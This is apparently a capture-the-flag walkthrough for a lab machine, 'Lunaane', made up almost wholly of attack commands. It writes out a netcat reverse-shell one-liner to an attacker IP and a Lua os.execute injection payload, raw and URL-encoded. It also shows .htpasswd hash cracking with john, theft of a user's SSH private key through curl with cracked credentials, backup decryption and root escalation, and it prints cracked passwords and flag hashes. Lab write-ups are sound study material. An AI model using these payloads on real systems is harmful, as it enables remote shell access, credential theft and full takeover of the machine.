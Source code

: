 # Lunaane

### SCAN
 - nmap/intial

### Enum
```
http://{EXPORT_IP}/weather/forecast?city=list
```

### Reverse Shell Payload
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.110 4444 >/tmp/f


lua -e 'os.execute("/bin/sh")'

[Payload]
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.110 4444 >/tmp/f")--

[Payload URL Encoding]
http://10.10.10.218/weather/forecast?city=London%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.110%204444%20%3E%2Ftmp%2Ff%22%29%27
```

### Crack the Password
```
1. Read .htpasswd
2. webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
3. john --wordlist=rockyou.txt hash
```
 - webapi_user:iamthebest

### Local Enume
```
1. netstat -ant
2. 127.0.0.1 3000 LISTEN <<
3. curl --user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
4. SAVED_id_rsa << local
```

### USER Reverse Shell
```
1. ssh -i id_rsa r.michaels@10.10.10.218
2. ea5f0ce6a917b0be1eabc7f9218febc0
```

### Privilige Escalation
```
1. /backups/devel_backup-2020-09-16-tar.gz.enc
- which "netpgp" -> /usr/bin/netpgp

2. netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc  --output=/tmp/backups.tar.gz 

3. cat /www/.htpasswd 

4.john --wordlist=rockyou.txt hash
```
 - webapi_user2:littlebear
```
5. Net Free Bsd Sudo >  doas su

6. 7a9b5c206e8e8ba09bb99bd113675f66
```